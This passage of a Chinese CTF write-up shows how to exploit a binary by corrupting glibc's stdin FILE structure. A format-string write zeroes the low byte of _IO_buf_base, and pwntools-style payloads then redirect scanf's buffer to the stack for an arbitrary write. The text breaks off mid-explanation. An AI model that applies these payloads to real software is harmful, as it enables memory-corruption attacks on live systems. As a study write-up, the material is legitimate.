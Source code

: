 ```
```
先是stdin的位置,当前位于0x7ffb6a2b08e0

然后是_IO_buf_base，它位于0x7ffb6a2b08e0 + 0x8 * 7 = 0x7ffb6a2b0918 ，它的值为0x00007ffb6a2b0963 ， 并且要知道，它的值相对_IO_2_1_stdin_的地址总是不变的，假如我们把_IO_buf_base的低一字节覆盖为0，那么他就变成了0x00007ffb6a2b0900 ，也就是0x7ffb6a2b08e0 + 0x8 * 4处，跑到了结构体内部去了，是结构体中的第5个数据处，也是_IO_write_base处，并且由于_IO_buf_end没变，那么我们可以从0x00007ffb6a2b0900处向后输入0x64-0x00 = 0x64个字符，那么就能把_IO_buf_base和_IO_buf_end都覆盖成关键地址，就能绕过7个字符的输入限制,且可以实现write anything anywhere

先来覆盖_IO_buf_base的低1字节为0

```python
	#modify _IO_buf_base
	sla('>>', str(1))
	p = p64(_IO_buf_base)
	sl(p)
	sla('>>', str(2))
	sla(':', str(7))
	p = '%16$hhn' #不打印,即个数为0
	sl(p)
```

接下来，就可以覆盖结构体里的一些数据了

对于_IO_buf_base之前的数据(_IO_write_base_IO_write_ptr, _IO_write_end)，最好原样的放回，不然不知道会出现什么问题，经过调试，发现它们的值都是0x83 + _IO_2_1_stdin_addr，然后接下来，覆盖_IO_buf_base和_IO_buf_end，将它设置为堆栈中的&main ret, 然后即可实现写入数据时,就会向堆栈中写入数据,前提还需满足一些条件.

于是，payload

```python
	#build payload to modify _IO_2_1_stdin struct
	p = p64(_IO_2_1_stdin_ + 0x83) * 3
	p += p64(main_ret) + p64(main_ret + 0x8 * 3)
	sla('>>', str(2))
	sa(':', p) #length:
	sl('')
```

在length:后面发送payload, 因为这个地方用到了scanf

现在，得绕过一个判断，这样调用scanf 输入数据时，才会往缓冲区写入输入的数据

```c
 if (fp->_IO_read_ptr < fp->_IO_read_end)  //判断是否已经读完, 想要能写入缓冲数据,就得把让ptr >= end,这样才能使新的数据重新读入到缓冲区里 
    return *(unsigned char *) fp->_IO_read_ptr;  
```

之前，覆盖结构体数据时，后面执行了这一步，使得 fp->_IO_read_end += count 相当于fp->_IO_read_end += len(p)

```c
fp->_IO_read_end = fp->_IO_buf_base;  //重新设置新的 _IO_buf_base
....          ....
count = _IO_SYSREAD (fp, fp->_IO_buf_base,  //系统向_IO_buf_base指向的缓冲区写入读取的数据
          fp->_IO_buf_end - fp->_IO_buf_base);//写入长度:fp->_IO_buf_end - fp->_IO_buf_base
....          ....
fp->_IO_read_end += count; //使 _IO_read_end指针向后移动
```
下面为输入之前的_IO_2_1_stdin_
